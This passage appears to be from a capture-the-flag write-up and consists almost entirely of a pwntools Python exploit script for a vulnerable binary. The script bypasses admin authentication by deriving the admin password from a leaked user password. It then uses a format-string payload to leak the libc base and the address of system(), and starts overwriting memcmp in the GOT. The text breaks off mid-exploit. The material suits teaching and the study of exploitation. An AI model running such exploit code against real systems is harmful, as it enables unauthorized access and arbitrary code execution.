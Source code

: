 #### ASLR Bypass
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def convertpass(userpass):
  targets=[]
  adminpass=""
  for i in range(0, 32, 8): # split userpass into 4 4-byte chunks
    if i == 24: # need to xor last chunk w/ user (0xa0000) 
      targets.append(int(userpass[i:i+8],16)^0xa0000)
    else:
      targets.append(int(userpass[i:i+8],16))
  for i in targets:
    adminpass+=str(p32(i,endian='little'))
  return adminpass


def exploit(r):
  ## GET ADMIN PASS 
  r.recvuntil("Username:")
  r.sendline("\x00"*14)
  r.recvuntil("Salt:")
  r.sendline("\x00"*16) 
  r.recvuntil("Password:\n")
  userpass = r.recvuntil("\n",16) 
  adminpass = convertpass(userpass)
  log.success("Admin password retrieved")
  r.recvuntil("Choice:")
  r.sendline("3")
  r.recvuntil("password:")
  r.sendline(adminpass)
  r.recvuntil("Authenticated!\n")
  log.success("Authenticated as admin!") 
  r.sendline("")  

  ## LEAK SYSTEM() 
  # system = libc+0x40190
  # leak = libc+0x1aa000
  r.recvuntil("Choice: ")
  r.sendline("6")
  r.sendline("")
  r.recvuntil("Choice: ")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("banana"+"%3$p"+"banana")
  r.sendline("")
  leak = int(r.recvuntil("Choice: ").split("banana")[1],16)
  libc = leak-0x1aa000
  log.success("Leaked libc base found @ "+str(hex(libc)))
  system = libc+0x40190
  log.success("Leaked system() found @ "+str(hex(system)))
  system = [system >> i & 0xff for i in (24,16,8,0)]
  
  ## OVERWRITE MEMCMP@GOT w/ SYSTEM
  r.sendline("1")
  r.recvuntil(":")